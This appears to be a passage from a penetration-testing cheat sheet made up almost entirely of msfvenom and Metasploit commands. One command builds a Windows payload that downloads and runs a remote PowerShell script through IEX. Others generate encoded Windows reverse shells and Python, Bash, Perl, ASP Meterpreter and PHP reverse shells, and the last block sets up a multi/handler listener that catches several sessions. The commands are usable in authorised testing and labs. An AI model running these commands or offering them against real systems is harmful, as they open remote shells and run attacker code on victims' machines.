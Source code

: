 
Windows Exec Nishang Powershell in python

```sh
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python
```

Bad characters shikata_ga_nai:

```sh
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=<IP> LPORT=<PORT> -f c -e x86/shikata_ga_nai -b "\x04\xA0"
```

Bad characters fnstenv_mov:

```sh
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=<IP> LPORT=<PORT> -f c -e x86/fnstenv_mov -b "\x04\xA0"
```

### Misc

Python Shell:

```sh
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py
```

Bash Shell:

```sh
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > shell.sh
```

Perl Shell:

```sh
msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl
```

ASP Meterpreter Shell:

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

PHP Reverse Shell:

```sh
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > phpreverseshell.php
```

To get multiple session on a single multi/handler, you need to set the
ExitOnSession option to false and run the exploit -j instead of just the
exploit. For example, for meterpreter/reverse_tcp payload:

```
msf>use exploit/multi/handler
msf>set payload windows/meterpreter/reverse_tcp
msf>set lhost <IP>
msf>set lport <PORT>
msf> set ExitOnSession false
msf>exploit -j
```
